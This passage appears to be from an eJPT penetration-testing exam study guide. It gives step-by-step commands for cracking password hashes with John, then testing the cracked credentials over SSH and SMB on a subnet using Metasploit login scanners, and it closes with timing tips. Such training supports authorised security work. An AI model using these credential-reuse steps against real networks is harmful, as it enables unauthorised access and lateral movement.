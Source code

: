 ```bash
# Step 4: Focus on high-value accounts (2 minutes)
# Prioritize admin, root, and service accounts
grep -E "(admin|root|service)" cracked_results.txt
```

#### **Scenario 3: Password Reuse Assessment**
**Given:** Cracked passwords from one system
**Your Job:** Test credentials on other network services
**Time Limit:** 6-8 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Compile credential list (1 minute)
john --show hash_file.txt > credentials.txt

# Step 2: Test SSH access (2 minutes)
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.0/24
set USERPASS_FILE credentials.txt
run

# Step 3: Test SMB access (2 minutes)
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.0/24
set USERPASS_FILE credentials.txt
run

# Step 4: Document lateral movement (1 minute)
# Note successful credential reuse across services
```

### **📝 eJPT Exam Tips:**

#### **⏰ Time Management Strategy:**
- **2 minutes:** Post-exploitation setup and session verification
- **3 minutes:** Hash extraction using appropriate modules
- **4 minutes:** Automated cracking with Metasploit tools
- **2 minutes:** Manual verification and result documentation
- **1 minute:** Buffer time for unexpected issues

#### **🎯 Common Mistakes to Avoid:**
1. **Skipping Session Verification** → Always confirm session status before proceeding
2. **Wrong Hash Type Identification** → Use hashid before manual cracking attempts
3. **Not Using Automated Tools First** → Metasploit modules save significant time
4. **Forgetting Result Documentation** → Always save cracked passwords for reporting
5. **Not Testing Credential Reuse** → Try discovered passwords on other services

#### **✅ Signs You're Doing Well:**
- **Quick Module Loading** → Metasploit commands executed without delays
- **Successful Hash Extraction** → Files created in loot directory
- **Rapid Password Recovery** → Common passwords cracked within minutes
- **Systematic Approach** → Following logical progression from extraction to cracking
- **Complete Documentation** → All results properly recorded
